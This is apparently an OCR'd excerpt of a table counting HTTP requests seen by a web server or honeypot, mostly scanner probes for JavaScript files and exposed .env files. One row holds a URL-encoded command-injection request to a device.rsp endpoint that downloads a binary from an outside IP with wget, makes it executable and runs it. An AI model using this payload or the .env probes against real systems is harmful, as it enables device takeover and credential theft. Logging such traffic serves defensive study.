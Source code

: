 |  22 |                     8 | GET /users/users/users/login HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|  23 |                     8 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F45.125.66.124%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
|  24 |                     7 | GET /js/protocol.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
|  25 |                     7 | GET /laravel/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
|  26 |                     7 | GET /www/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|  27 |                     7 | GET /js/jquery.min.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
|  28 |                     7 | GET /js/moment.min.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |